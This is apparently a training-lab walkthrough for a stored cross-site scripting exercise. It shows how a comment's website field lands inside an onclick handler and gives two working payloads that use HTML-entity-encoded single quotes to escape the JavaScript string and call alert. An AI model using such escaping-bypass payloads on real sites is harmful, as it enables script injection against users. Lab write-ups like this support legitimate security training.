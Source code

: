 Title: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Level: PRACTITIONER
Desc:  This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

# Walkthrough:


<img width="634" height="471" alt="image" src="https://github.com/user-attachments/assets/8bb17987-9422-40fb-951b-bf763c583df5" />
string provided by website field is reflected on: 

```
<a id="author" href="https://website.com" onclick="var tracker={track(){}};tracker.track('https://website.com');">
```

payload to make this work: `http://foo?&apos;-alert(1)-&apos;` (add to website and url encode in burp)

<img width="1396" height="784" alt="image" src="https://github.com/user-attachments/assets/c4997472-1fda-449d-ae49-2453c145c33b" />

`http://foo?&apos;);alert(1);//`  - this payload also works
